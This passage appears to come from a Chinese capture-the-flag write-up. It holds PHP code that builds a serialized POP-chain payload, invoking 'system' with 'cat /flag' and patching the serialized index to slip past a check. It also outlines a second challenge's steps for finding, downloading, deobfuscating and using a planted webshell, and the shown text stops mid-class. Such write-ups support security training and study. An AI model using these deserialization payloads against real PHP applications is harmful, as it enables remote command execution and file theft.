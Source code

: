 		  class MM{
		      public $name;
		      public $c;
		      public function __invoke(){ // MM被当成函数调用时会调用
		          ($this->name)($this->c);
		      }
		      public function __toString(){
		          return "ok,but wrong";
		      }
		      public function __call($a, $b){
		          echo "Hacker!";
		      }
		  }
		  $mm = new MM();
		  $mm -> name = "system";
		  $mm -> c = "cat /flag";
		  $jj = new JJ();
		  $jj -> obj = $mm;
		  $tt = new TT();
		  $tt -> key = $jj;
		  $s = serialize([$tt, 114514]);
		  $s = str_replace("i:1;i:114514;", "i:0;i:114514;", $s);
		  echo urlencode($s);
		  
		  ```
- # Hackerconfused
	- 难点
		- 利用POP链读取任意文件
		- 通过glob判断文件是否存在
		- php webshell反混淆
	- 思路：
		- 构造POP链读取任意文件以及判断以某个字符串开头的文件是否存在
		- 利用POP链爆出webshell的文件名
		- 利用POP链下载webshell文件
		- 反混淆webshell
		- 利用webshell执行任意文件
	- 修改源码以更好地构造POP链
		- 主要是改了`Funny::__construct`
		- ```php
		  $CanRead = true;
		  class SFile{
		      public $name;
		      public function __construct($name) {
		          $this->name = $name;
		      }
		      public function __toString(){
		          $num = count(scandir($this->name));
		          if($num > 0){
		              return 'Not null';
		          } else {
		              return 'Access the backdoor_******.php.* in [0-f]';
		          }
		      }
		  }
		  class Funny{
		      public $name;
		      public function __construct($name){
		          $this->name = $name;
		      }
		      public function __toString(){
		          return $this->name;
		      }
		      